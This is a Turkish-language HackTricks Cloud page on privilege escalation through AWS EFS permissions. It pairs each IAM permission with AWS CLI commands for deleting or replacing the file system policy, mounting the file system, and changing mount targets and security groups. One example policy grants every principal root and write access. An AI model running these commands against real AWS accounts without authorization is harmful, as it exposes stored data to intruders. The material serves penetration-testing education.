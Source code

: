 # AWS - EFS Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **Bize katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **bizi** **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## EFS

Daha fazla **EFS hakkında bilgi** için:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

EFS'yi bağlamak için, EFS'nin açıldığı bir alt ağda olmanız ve ona erişiminizin olması gerektiğini unutmayın (güvenlik grupları). Bu gerçekleşiyorsa, varsayılan olarak her zaman bağlanabileceksiniz, ancak IAM politikalarıyla korunuyorsa, erişim sağlamak için burada belirtilen ek izinlere sahip olmanız gerekir.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Bu izinlerden herhangi biriyle bir saldırgan **dosya sistemi politikasını** **değiştirerek** size **erişim verebilir** veya sadece **silerek** **varsayılan erişimi** sağlayabilir.

Politikayı silmek için:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Değiştirmek için:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Bu izinle bir saldırgan **EFS'yi bağlayabilir**. Eğer yazma izni, EFS'yi bağlayabilen herkes için varsayılan olarak verilmemişse, yalnızca **okuma erişimine** sahip olacaktır.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Ekstra izinler `elasticfilesystem:ClientRootAccess` ve `elasticfilesystem:ClientWrite`, dosya sistemi monte edildikten sonra **yazmak** ve bu dosya sistemine **root** olarak **erişmek** için kullanılabilir.

**Olası Etki:** Dosya sisteminde hassas bilgileri bulma yoluyla dolaylı yetki yükseltme.

### `elasticfilesystem:CreateMountTarget`

Eğer bir saldırgan **alt ağda** EFS'nin **hiçbir montaj hedefi** yoksa, bu yetki ile **kendi alt ağında bir tane oluşturabilir**.
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Olası Etki:** Dosya sisteminde hassas bilgilerin bulunmasıyla dolaylı yetki yükselmesi.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

Bir saldırganın EFS'nin kendi alt ağında bir montaj hedefi bulduğu ancak **hiçbir güvenlik grubunun trafiğe izin vermediği** bir senaryoda, **seçilen güvenlik gruplarını değiştirerek bunu değiştirebilir:**
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Potansiyel Etki:** Dosya sisteminde hassas bilgileri bulma yoluyla dolaylı yetki artırma.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
